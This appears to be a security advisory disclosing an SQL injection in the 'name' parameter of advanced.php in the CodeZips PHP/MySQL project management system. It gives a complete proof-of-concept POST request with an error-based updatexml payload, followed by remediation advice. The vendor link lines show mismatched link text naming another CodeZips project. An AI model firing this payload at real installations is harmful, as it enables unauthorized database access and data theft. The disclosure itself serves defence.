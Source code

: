 # CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- [[https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)

## Software Link

- [[https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```

<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
